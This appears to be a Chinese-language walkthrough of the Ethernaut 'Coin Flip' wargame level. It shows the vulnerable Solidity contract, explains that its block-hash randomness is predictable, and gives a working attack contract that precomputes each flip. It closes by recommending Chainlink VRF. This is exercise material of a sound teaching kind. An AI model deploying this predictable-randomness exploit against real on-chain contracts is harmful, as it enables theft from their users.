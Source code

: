 # Coin Flip

> 这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## 攻击思路

该合约中所使用的随机数算法依靠块高，而且FACTOR也为public变量。这种随机数方法就变成了伪随机。

## 攻击合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";


interface CoinFlip {
    function consecutiveWins() external view returns(uint256);
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    using SafeMath for uint256;

	// 根据我的实例合约地址，生成合约实例
    CoinFlip constant private target = CoinFlip(0xed1c7473A164Ff3C40Ff344d0cb4C222f2fdCC7C);

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
	// 此函数方便我查看被攻击合约中的成功次数
    function getConsecutiveWins() public view returns (uint256){
        return target.consecutiveWins();
    }
}
```

手动调用十次attack函数，可以产生的错误：out of gas、revert等

## 建议的随机数算法

想要获得密码学上的随机数,你可以使用 [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.